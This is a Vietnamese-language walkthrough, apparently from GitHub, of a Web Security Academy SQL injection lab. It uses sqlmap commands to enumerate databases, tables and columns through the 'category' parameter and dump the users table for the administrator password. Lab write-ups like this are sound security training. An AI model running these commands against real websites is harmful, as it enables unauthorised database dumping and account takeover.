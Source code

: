![image](https://user-images.githubusercontent.com/125866921/232947468-ff1e5b0f-16fe-440f-8ca8-9b5049874261.png)

  - Nhiệm vụ ở lab này là ta phải tìm ra tài khoản ``administrator`` để  đăng nhập vào cửa hàng và hoàn thành lab.  
  - Ta chọn phần ``Gifts`` thì trên URL lúc này sẽ xuất hiện tham số ``Category``.  

![image](https://user-images.githubusercontent.com/125866921/232947947-f583446d-3bde-46e2-99c9-7687ee13fbcc.png)

  - Đầu tiên ta sẽ list ra toàn bộ database của cửa hàng với sqlmap.  
  - Câu lệnh như sau: ``python3 sqlmap.py -u "https://0a4c00ee0409a2ad82d98f4b002600a7.web-security-academy.net/filter?category=Gifts" --dbs``.  
  - Tại đây ta thấy có 7 database xuất hiện. Sau khi thử 1 hồi thì mình chọn database ``PETER`` để kiểm tra xem sao.  

![image](https://user-images.githubusercontent.com/125866921/232948239-217be4be-22e4-451a-97ed-30550c7d03c4.png)

  - Sau khi truy cập vào database ``PETER`` thì xuất hiện 2 bảng ở đây là ``PRODUCTS`` VÀ ``USERS_WXGKSU``.  
  - Câu lệnh như sau: ``python3 sqlmap.py -u "https://0a4c00ee0409a2ad82d98f4b002600a7.web-security-academy.net/filter?category=Gifts" -D PETER --tables``
  - Mình sẽ truy cập vào bảng ``USERS_WXGKSU``.  

![image](https://user-images.githubusercontent.com/125866921/232948429-08c012dc-aef6-4532-88d9-7f1314467155.png)

  - Khi truy cập sẽ xuất hiện 2 cột là ``PASSWORD_GVPMEO`` và ``USERNAME_FVBVAH``.  
  - Câu lệnh như sau: ``python3 sqlmap.py -u "https://0a4c00ee0409a2ad82d98f4b002600a7.web-security-academy.net/filter?category=Gifts" -D PETER -T USERS_WXGKSU --columns``
  - Tài khoản và mật khẩu của tài khoản admin sẽ nằm trong này. Mình sẽ truy cập vào để  lấy nó.  

![image](https://user-images.githubusercontent.com/125866921/232948747-69853d4c-79e1-4721-9ac4-95006d6f142f.png)

  - Sau khi lấy toàn bộ thông tin của 2 cột trên thì tại đây đã xuất hiện tài khoản của admin.  
  - Giờ thì ta chỉ việc đăng nhập vào và hoàn thành lab thui.  

![image](https://user-images.githubusercontent.com/125866921/232948895-a155e2de-553c-4eba-9001-9553b47d9897.png)
